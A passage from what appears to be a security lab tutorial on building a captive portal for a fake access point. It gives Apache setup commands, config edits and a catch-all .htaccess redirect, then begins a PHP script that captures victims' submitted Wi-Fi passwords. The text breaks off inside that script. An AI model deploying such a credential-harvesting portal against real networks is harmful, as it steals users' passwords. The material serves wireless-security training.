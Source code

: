 <i class="mdi mdi-information-outline mr-2"></i> The captive portal is pre-configured within the lab environment, allowing us to focus directly on executing the attack and analyzing the results without manually setting up and configuring the entire infrastructure. The following setup steps are provided solely for demonstration purposes.
</div>
<br/>
<p>We install the necessary tools required to host a captive portal using following command:</p>
<pre><code class="language-shell-session">[!bash!]$ sudo apt-get install apache2 php libapache2-mod-php
</code></pre>
<p>Then we want to activate the rewrite engine for Apache</p>
<pre><code class="language-shell-session">[!bash!]$ sudo a2enmod rewrite
</code></pre>
<p>Then we need to change part of our apache configuration file located at <code>/etc/apache2/apache2.conf</code> to allow overrides. We replace <code>AllowOverride none</code> with <code>AllowOverride all</code> for our relevant directories. For Apache2 we will be using the default <code>/var/www/html</code> directory for our captive portal.</p>
<p>We change a portion of the configuration file to have the following.</p>
<h4>Original Config</h4>
<pre><code class="language-Apache2.conf">...
&lt;Directory /&gt;
	Options FollowSymLinks
	AllowOverride None
	Require all denied
&lt;/Directory&gt;
&lt;Directory /var/www/&gt;
	Options Indexes FollowSymLinks
	AllowOverride None 
	Require all granted
&lt;/Directory&gt;
</code></pre>
<h4>With Modifications</h4>
<pre><code class="language-Apache2.conf">...
&lt;Directory /&gt;
	Options FollowSymLinks
	AllowOverride All
	Require all denied
&lt;/Directory&gt;
&lt;Directory /var/www/&gt;
	Options Indexes FollowSymLinks
	AllowOverride All
	Require all granted
&lt;/Directory&gt;
...
</code></pre>
<p>At this point we need to setup an <code>.htacces</code> file. This defines rules for our web server, that notifies stations connected to our fake AP that they need to sign in through the captive portal. We do so in the <code>/var/www/html</code> directory.</p>
<pre><code class="language-.htaccess">RewriteEngine on
RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.html [L]
</code></pre>
<p>Then we save the .htaccess file and restart apache2.</p>
<pre><code class="language-shell-session">[!bash!]$ service apache2 restart
</code></pre>
<p>If a user enters their password a POST request is sent to <code>received.php</code> which consists of the following</p>
<pre><code class="language-php">&lt;?php
if(isset($_POST['submit'])) {
    $password = $_POST['password'];
